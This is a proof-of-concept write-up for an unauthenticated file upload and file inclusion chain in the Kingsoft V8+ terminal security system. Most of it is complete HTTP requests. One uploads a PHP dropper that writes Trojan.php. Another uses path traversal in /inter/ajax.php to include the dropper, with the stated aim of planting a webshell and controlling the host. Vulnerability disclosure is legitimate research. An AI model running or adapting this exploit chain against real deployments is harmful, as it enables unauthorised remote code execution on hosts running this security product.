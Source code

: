 # Kingsoft Security Arbitrary File Upload + File Contains Vulnerabilities

#### 1.Vulnerability link

https://www.ejinshan.net/product_V8/index.html

#### 2.Vulnerability version

V8+ terminal security system

#### 3.Vulnerability reproduction

3.1. First upload the php file in /inter/uploadFile.php to the system, uploadFile.php does not require arbitrary permissions to upload the file

Upload the data package as follows:

```shell
POST /inter/uploadFile.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 315
Content-Type: multipart/form-data; boundary=f308c8c8074428d48dc1fbd26e7b3ed5


--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="savepath"


111
--f308c8c8074428d48dc1fbd26e7b3ed5
Content-Disposition: form-data; name="file"; filename="123.php"


<?php
$test='<?php phpinfo(); ?>';
file_put_contents("Trojan.php", $test);
?>
--f308c8c8074428d48dc1fbd26e7b3ed5--
```

After the file is successfully uploaded, the echo packet contains the file name. for example:

![Image](C:%5CUsers%5CAdministrator%5CDesktop%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabiliti%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabilities%5CImage.png)

But the sad part is that the file cannot be accessed directly,final,I found that the file /inter/ajax.php has file inclusion loopholes, which can contain file upload loopholes. Upload files and write them into the webshell to achieve the effect of controlling the host.

Upload the data package as follows:

```shell
POST /inter/ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 121
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lootcn61f1sd5immqommrt9pv6
Connection: close


{"../../../uploadfile/111/123_127.0.0.1_1618316095_92846":{"name":"admin","password":"21232f297a57a5a743894a0e4a801fc3"}}
```

Finally visit /inter/Trojan.php, successfully access the write file address

eg：

![shell](C:%5CUsers%5CAdministrator%5CDesktop%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabiliti%5CKingsoft%20Security%20Arbitrary%20File%20Upload%20+%20File%20Contains%20Vulnerabilities%5Cshell.png)

